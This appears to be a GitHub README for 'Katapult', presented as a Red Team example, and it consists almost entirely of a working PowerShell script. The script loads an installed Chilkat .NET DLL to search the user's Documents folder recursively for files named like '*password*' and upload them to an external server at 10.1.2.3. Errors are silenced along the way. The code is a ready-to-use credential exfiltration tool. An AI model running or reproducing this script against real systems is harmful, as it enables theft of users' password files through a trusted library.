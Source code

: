 # Katapult

Example of exploiting the Chilkat .NET assembly for Red Team exercises using Powershell.

This example searches the user's MyDocuments folder and uploads file names matching *password* to an external web server.

```powershell
$ErrorActionPreference = 'silentlycontinue'
$ckdll = Resolve-Path -Path "C:\Program Files\*\ChilkatDotNet*dll"
if($ckdll.Path -eq $null) {
   $ckdll = Resolve-Path -Path "C:\Program Files\*\*\ChilkatDotNet*dll"
   if($ckdll.Path -ne $null) {
      $ckpath = $ckdll.Path
   }
} else {
   $ckpath = $ckdll.Path
}
if($ckpath -eq $null) {
   Write-Host "Chilkat DLL not found"
} else {
   $null = [System.Reflection.Assembly]::LoadFrom($ckpath)
   $up = New-Object Chilkat.Upload
   $docs = [environment]::getfolderpath("mydocuments")
   $up.Hostname = "10.1.2.3"
   $up.Port = 8000
   $up.Path = "/upload"
   $up.Expect100Continue = $false
   Get-ChildItem -Path $docs -Recurse -Filter "*password*" | Select-Object -Expand FullName | ForEach-Object {
      $up.AddFileReference("files", $_)
   }
   $null = $up.BlockingUpload()
}
```
